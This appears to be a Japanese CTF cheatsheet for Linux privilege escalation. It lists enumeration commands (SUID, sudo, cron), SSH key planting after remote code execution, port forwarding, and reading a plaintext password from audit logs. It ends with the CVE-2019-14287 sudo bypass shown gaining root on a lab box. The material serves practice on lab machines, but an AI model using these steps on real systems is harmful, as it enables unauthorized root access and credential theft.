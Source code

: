 ```yaml
---
layout: post
title: Linuxの特権昇格
published : true
tags: CTF Common cheatsheet linux 特権昇格 Privesc "privilage escaration"
---
```

## 列挙
### SUID
```sh
find / -perm -4000 2>/dev/null
```

### sudo
```sh
sudo -l
```

### プロセス
```sh
ps awxww
```

### サービス
```sh
ss -antul
```

### apache2 config
```
/etc/apache2/sites-enabled
```

## ssh-keygen プロンプトなし。(RCEでリモートマシン上にssh-keygenするときに使う)
```sh
ssh-keygen -t rsa -f /home/matt/.ssh/id_rsa'
```

## SSH port forwerding
```sh
ssh daniel@panda.htb -L 9999:localhost:80
```

## cron
```sh
cat /etc/cron.d/*
```
and
```sh
cat /var/spool/cron/crontabs/*                cat: '/var/spool/cron/crontabs/*': Permission denied
```

## 監査ログ
- ユーザがadmグループにいるとき、監査ログが確認できる。その他/ver/logの確認も。

```sh
cry0l1t3@academy:/$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:/$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs:
/var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
```

## sudo
sudo 1.8.28 より前のバージョンでは、CVE-2019-14287を適用できる場合がある。[JPCERT](https://www.jpcert.or.jp/newsflash/2019101601.html)
```sh
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```
